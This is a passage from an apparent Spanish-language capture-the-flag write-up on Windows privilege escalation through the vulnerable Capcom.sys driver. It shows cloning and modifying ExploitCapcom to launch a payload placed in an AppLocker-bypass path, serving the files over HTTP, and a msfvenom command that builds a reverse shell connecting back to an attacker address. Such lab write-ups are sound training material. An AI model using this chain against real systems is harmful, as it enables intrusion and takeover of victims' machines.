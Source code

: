 ````bash

En este punto nos tenemos que descargar el fichero **ExploitCapcom**. Este fichero se tiene que compilar desde Visual Studio.

1. descargamos el proyecto

    ```bash
    git clone https://github.com/tandasat/ExploitCapcom
    ```

1. desde Visual Studio le damos a File -> Open -> Project/Solution
1. buscamos el .sln y le damos a open

Si abrimos el fichero ExploitCapcom.cpp, la idea aqui seria de modificar el script para que ejecute un binario malicioso creado con *msfvenom*. 
Para esto necesitamos modificar la funccion **launchSell()** del ExploitCapcom.cpp

En la web de [AppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList), buscamos una routa windows interesante donde se puede trabajar
sin problemas, en este caso seria la `C:\Windows\System32\spool\drivers\color`

1. Modificamos el script

    ```cpp
    static bool launchSell()
    {
        TCHAR CommandLine[] = TEXT("C:\\Windows\\System32\\spool\\drivers\\color\\reverse.exe");
    }
    ```

1. Buildeamos el proyecto dandole al menu Build -> Rebuild solution
1. copiamos el fichero ExploitCapcom.exe en la carpeta compiledbinaries


#### Passamos los ficheros a la maquina victima {-}

En la carpeta `compiledbinaries` tenemos nuestros 3 ficheros necesarios para el exploit.
- Capcom.sys
- ExploitCapcom.exe
- LoadDriver.exe

En esta carpeta, montamos un servidor web con python

```bash
python3 -m http.server
```

Desde la maquina de atacante, descargamos estos ficheros

```bash
wget http://192.168.1.14:8000/Capcom.sys
wget http://192.168.1.14:8000/ExploitCapcom.exe
wget http://192.168.1.14:8000/LoadDriver.exe
```

Creamos el reverse.exe con msfvenom

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o reverse.exe
```

Desde la consola Evil-WinRM de la maquina victima, subimos todo los ficheros

```bash
````